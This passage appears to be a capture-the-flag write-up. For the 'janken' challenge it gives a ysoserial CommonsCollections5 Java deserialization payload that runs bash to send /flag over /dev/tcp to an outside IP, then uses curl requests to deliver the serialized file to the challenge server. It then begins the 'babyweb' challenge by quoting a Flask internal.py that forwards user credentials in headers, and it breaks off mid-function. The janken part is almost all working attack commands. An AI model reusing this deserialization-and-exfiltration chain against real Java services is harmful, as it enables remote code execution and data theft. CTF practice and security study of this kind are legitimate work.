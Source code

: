 

**janken**

```
./jdk1.7.0_80/bin/java -jar ysoserial-modified.jar CommonsCollections5 bash '/bin/cat /flag > /dev/tcp/3.128.107.74/16769' > haxtest.bin

curl 'http://34.85.120.233/unregister' -X 'DELETE' 

curl -X PUT http://34.85.120.233/register -H "Content-Type: application/json" -d '{"name":"dddd","abuse": true}'

curl -X PUT http://34.85.120.233/outstretch?player=1  -H "Content-Type: application/json" --data-binary @haxtest.bin

curl -X PUT http://34.85.120.233/outstretch  -H "Content-Type: application/json" --data-binary @haxtest.bin
```



**babyweb**

Description:

```
Neko is cute

http://35.187.196.233/
Mirror: http://34.85.38.15
```

There are `internal` and `public` servers with this challenge.

The part which we must look at carefully is `public`'s `internal.py`. 

```python
import functools
import requests

from flask import (
    Blueprint, flash, g, redirect, render_template, request, session, url_for, jsonify
)

from utils import *
from config import cfg


internal_bp = Blueprint('internal', __name__, url_prefix='/internal')


@internal_bp.route("/auth", methods=["POST"])
def auth():
    data = request.get_json()
    conn = create_connection()
    headers = {
        cfg["HEADER"]["USERNAME"]: data["username"],
        cfg["HEADER"]["PASSWORD"]: data["password"]
    }
    conn.request("GET", "/auth", headers=headers)
    resp = conn.get_response()
    return resp.read()


@internal_bp.route("/health", methods=["POST"])
def health():
    try:
        data = request.get_json()
```